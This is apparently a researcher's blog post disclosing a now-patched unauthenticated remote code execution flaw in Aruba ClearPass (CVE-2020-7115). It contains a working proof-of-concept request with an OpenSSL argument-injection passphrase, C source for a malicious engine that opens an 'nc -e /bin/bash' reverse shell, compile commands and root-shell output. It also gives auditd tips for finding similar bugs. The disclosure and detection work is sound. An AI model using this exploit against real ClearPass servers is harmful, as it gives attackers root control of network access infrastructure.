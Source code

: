 ```yaml
---
title:  "Aruba Clearpass RCE (CVE-2020-7115)"
layout: post
date:   2020-09-18
permalink: posts/aruba-clearpass-rce
---
```


I discovered an unauthenticated RCE vulnerability in Aruba ClearPass Policy Manager that I reported to Aruba, and it is now fixed. The Aruba security bulletin is available at [ARUBA-PSA-2020-005.txt](https://www.arubanetworks.com/assets/alert/ARUBA-PSA-2020-005.txt). Exploiting this vulnerability uses a couple of interesting tricks that I'll explain in this post. 

## Discovery
I first discovered something interesting when I was looking through the unauthenticated attack surface of ClearPass, and grabbed a list of actions from the `struts.xml` file, and fed them to Burp Intruder. Several pages returned a response other than a 302 to the login page, although the majority of these were login related. The most interesting of these was the `tipsSimulationUpload.action` endpoint, which returned a 200 response to a GET request with the message "No file has been uploaded". 

After looking at the application log to figure out what was going on, I found it needed a few parameters to be set. By reading the application's decompiled Java code, I figured out this was an upload endpoint for certificate files, used in the "Policy Simulation" functionality of the application. A valid call to the endpoint looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

password
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<CERT FILE>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

In my experience, certificate handling code is a rewarding area to audit, as developers often shell out to the OpenSSL binary, rather than handling the certificate using a code library. In the case of ClearPass, if a client certificate was uploaded in the call to the endpoint, the contents were copied to a temporary file in the `/tmp/` directory. The temporary file was created using the Java `createTempFile` function, which gives the temporary file a random name, and a fixed extension, so that the file looks like `/tmp/clientCertFile{RAND}.txt` This means that we have no ability to control the file name, only the contents. 

After the certificate contents were copied into the temporary file, the code attempted to "validate" the client certificate by determining whether the password parameter in the request was able to decrypt the certificate. This was performed by passing the temporary file name and the password as arguments to a shell script, which called `openssl pkcs12` and checked whether it returned successfully or not. 

The shell script looked like this:

**verifyClientCertFile.sh**
```
#! /bin/bash

openssl pkcs12 -in $1 -passin pass:$2 -noout -nokeys > /dev/null
```

Unfortunately for attackers, this shell script is invoked from Java by breaking up the arguments into an String array, then passing the array to ProcessBuilder. Under the hood ProcessBuilder will use execve on a String[], which prevents command injection.

However, as the "pass" argument in the `verifyClientCertFile.sh` script is not quoted, we do have the ability to inject **arguments** to OpenSSL, which can result in arbitrary code execution.  This is something I have detailed in further in my [OpenSSL argument injection](openssl-arginjection) post. 

Basically the short version is that if 

a) you are able to place a file on disk that can be interpreted as an OpenSSL engine file

b) you can provide and control the `-engine` argument to OpenSSL

then you can execute arbitrary code. Often the tricky part of this is getting the engine file on disk for OpenSSL to execute. Not content with leaving this as an authenticated issue (there are many post-authentication ways of uploading files in ClearPass), I tried to figure a way around. I then realised that the certificate upload was not validated to see if it looked like a certificate - it was just placed in the temporary file as is, and then passed to the validation shell script. Of course, the problem here is that we don't know the uploaded file name, as it is randomly generated. I briefly checked the implementation to see if the randomness was in some way predictable, but in OpenJDK this is [implemented using SecureRandom](https://hg.openjdk.java.net/jdk8/jdk8/jdk/file/687fd7c7986d/src/share/classes/java/io/File.java#l1901). 

What I then realised is that as the password argument passes unquoted through a shell script, we can use the wildcard character * , which will be expanded. This means we don't actually **need to know** the uploaded file name - we can just pass a path like `/tmp/clientCertFile*.txt` and the shell script will substitute in a valid path for us! 

This lack of quoting means we can upload an OpenSSL engine file as the certificate, and in the same request set the passphrase to an argument injection that references the temporary certificate file without knowing its actual name. 

After firing off a request with the passphrase `'a' -engine /tmp/clientCertFile*.txt` and a compiled OpenSSL engine file I received a reverse shell:

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 192.168.200.81.
Ncat: Connection from 192.168.200.81:60246.
id
uid=0(root) gid=0(root) groups=0(root)

```

## Proof of Concept
The final proof of concept HTTP request looks like:

```
POST /tips/tipsSimulationUpload.action HTTP/1.1
Host: 192.168.200.81
Connection: close
Content-Length: 16425
Cache-Control: max-age=0
Origin: https://192.168.200.81
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; charset="utf-8"; boundary=----WebKitFormBoundarySCYwHjrAcRBmbkPK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.162 Safari/537.36
Sec-Fetch-Dest: iframe
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: https://192.168.200.81/tips/tipsContent.action
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="clientPassphrase"

'a' -engine /tmp/clientCertFile*.txt
------WebKitFormBoundarySCYwHjrAcRBmbkPK
Content-Disposition: form-data; name="uploadClientCertFile"; filename="a.pfx"
Content-Type: application/octet-stream

<OPENSSLENGINEBINARY>
------WebKitFormBoundarySCYwHjrAcRBmbkPK--
```

and engine file:

```
#include <unistd.h>

__attribute__((constructor))
        static void init() {
                    execl("/bin/sh", "sh", "-c","nc -e /bin/bash <IP> 1234",NULL);
        }

```
compile with:
`gcc -fPIC -o a.o -c a.c && gcc -shared -o a.so -lcrypto a.o`


If you are trying to replicate this, the POC will only work the first time. This is because when the disk contains multiple clientCertFiles they are all passed as arguments, which is not a valid way to call OpenSSL. You can work around this! - figuring out how is up to you. 


This bug was reported to Aruba, and fixed in 6.9.1. The best mitigation for this issue and others is to ensure you keep your ClearPass instance up to date with the latest patches, and restrict network access to the management interface to authorised endpoints.


#### BONUS: Finding argument injections

One of the best ways I have discovered to find and validate argument injections in complex code is to set up the auditd daemon, and monitor calls to shells and binaries that are being called such as OpenSSL and tar. You can do it like (taken [from here](https://serverfault.com/questions/736753/how-to-log-execution-of-a-specific-binary-script-using-auditd-or-other)):

```
# systemctl start auditd 
# auditctl -w /bin/sh -p x -k my_execs
# auditctl -w /bin/bash -p x -k my_execs
# auditctl -w /bin/openssl -p x -k my_execs
# ausearch -i -k my_execs
```

The ausearch command will display the invocations of the two shells and OpenSSL. So in the case of this ClearPass vulnerability, when we submit the passphrase  `'a' /tmp/a*` the ausearch command shows the following invocations (some information trimmed)

```
type=EXECVE msg=audit(09/17/2020 13:54:28.528:34154) : argc=4 a0=/bin/bash a1=/usr/local/avenda/tips/bin/tipsAdmin/verifyClientCertFile.sh a2=/tmp/clientCertFile3903733629309270609.txt a3=a /tmp/a* 
--
type=EXECVE msg=audit(09/17/2020 13:54:28.530:34155) : argc=9 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile3903733629309270609.txt a4=-passin a5=pass:a a6=/tmp/avenda-postgresql.conf a7=-noout a8=-nokeys 
```

Note the `/tmp/a*` is expanded to `/tmp/avenda-postgresql.conf`, a file that exists on disk. You can also see the `a3=a /tmp/a*` in the bash execution, and in the OpenSSL execution the value has been split like `a5=pass:a a6=/tmp/avenda-postgresql.conf`. When you see that arguments you have provided separated by a space or spacelike character are split into different a{N} values, this indicates an argument injection is possible. An unsuccessful injection in non-vulnerable code would have an OpenSSL call that looked like this:

```
type=EXECVE msg=audit(09/17/2020 11:25:22.153:5227) : argc=8 a0=openssl a1=pkcs12 a2=-in a3=/tmp/clientCertFile4516591877132007270.txt a4=-passin a5=pass:a /tmp/a* a6=-noout a7=-nokeys 
```
In this one the wildcard was not expanded, and the spaces have not separated the `a` from the `/tmp/a*` path into a5 and a6.

